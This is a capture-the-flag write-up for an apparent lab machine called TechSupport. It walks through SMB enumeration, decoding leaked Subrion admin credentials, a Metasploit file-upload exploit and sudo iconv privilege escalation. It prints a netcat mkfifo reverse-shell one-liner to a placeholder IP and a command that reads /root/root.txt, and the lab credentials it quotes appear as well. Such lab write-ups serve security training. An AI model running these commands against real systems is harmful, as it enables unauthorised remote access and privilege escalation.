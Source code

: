 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![[Pasted image 20250411151007.png]]

There we go, we got an interesting share, let's check the contents inside of it:

![[Pasted image 20250411151101.png]]

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![[Pasted image 20250411151659.png]]

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![[Pasted image 20250411151834.png]]


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![[Pasted image 20250411152301.png]]

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![[Pasted image 20250411152549.png]]

There's a redirection, if we follow it:

![[Pasted image 20250411152610.png]]

It changes the host, seems weird, what if we try changing it back to the real host:

![[Pasted image 20250411152727.png]]

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![[Pasted image 20250411153009.png]]

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![[Pasted image 20250411153208.png]]


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![[Pasted image 20250411153349.png]]

There we go, we got the real password:

```
admin:Scam2021
```


![[Pasted image 20250411153512.png]]

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![[Pasted image 20250411153614.png]]

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![[Pasted image 20250411154612.png]]

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![[Pasted image 20250411154740.png]]

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![[Pasted image 20250411154905.png]]

If we use linpeas, we can see this:

![[Pasted image 20250411155553.png]]

![[Pasted image 20250411155606.png]]


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![[Pasted image 20250411155627.png]]

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![[Pasted image 20250411155740.png]]

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![[Pasted image 20250411160756.png]]
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![[Pasted image 20250411160820.png]]

